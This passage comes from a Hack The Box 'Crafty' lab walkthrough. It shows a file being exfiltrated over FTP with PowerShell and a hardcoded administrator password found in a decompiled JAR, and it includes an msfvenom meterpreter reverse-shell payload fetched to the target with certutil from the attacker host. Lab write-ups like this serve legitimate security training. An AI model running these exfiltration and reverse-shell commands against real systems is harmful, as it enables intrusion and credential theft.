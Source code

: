 - With the following commands, the pentester set up a `writable FTP` server to transfer the `playercounter-1.0-SNAPSHOT.jar` file from the target host to their attack host for further analysis.

```bash
# Attack host
python3 -m pyftpdlib --port 21 --write
```

![](/assets/images/HTB-Writeup-Crafty/Pasted image 20240613205119.png)

```powershell
# Target host
(New-Object Net.WebClient).UploadFile('ftp://10.10.14.151/playercounter-1.0-SNAPSHOT.jar', 'c:\users\svc_minecraft\server\plugins\playercounter-1.0-SNAPSHOT.jar')
```

![](/assets/images/HTB-Writeup-Crafty/Pasted image 20240613205540.png)

- The `successful transfer` is verified using the MD5 hash of the files.

```bash
# Attack host
md5sum playercounter-1.0-SNAPSHOT.jar
```

![](/assets/images/HTB-Writeup-Crafty/Pasted image 20240613205708.png)

```powershell
# Target host
get-filehash -path c:\users\svc_minecraft\server\plugins\playercounter-1.0-SNAPSHOT.jar -algorithm md5
```

![](/assets/images/HTB-Writeup-Crafty/Pasted image 20240613203626.png)


- The pentester used `jd-gui` to open the JAR file, searching for passwords or connection strings (which is common in HTB's machines). Great! He found a possible credential in `Playercounter.class` for the user `administrator`. If you're wondering why he thoughts that? Well, the real question here is, 'why not?'

![](/assets/images/HTB-Writeup-Crafty/Pasted image 20240613210312.png)

- So, he created a payload with `msfvenom` to obtain a reverse shell as `Administrator`, assuming `s67u84zKq8IXw` is indeed the password.

```bash
msfvenom -p windows/x64/meterpreter/reverse_https lhost=10.10.14.151 lport=4445 -f exe -o revshmet.exe
```

![](/assets/images/HTB-Writeup-Crafty/Pasted image 20240613211049.png)

```powershell
certutil -f -urlcache http://10.10.14.151/revshmet.exe revshmet.exe
```

![](/assets/images/HTB-Writeup-Crafty/Pasted image 20240613211246.png)
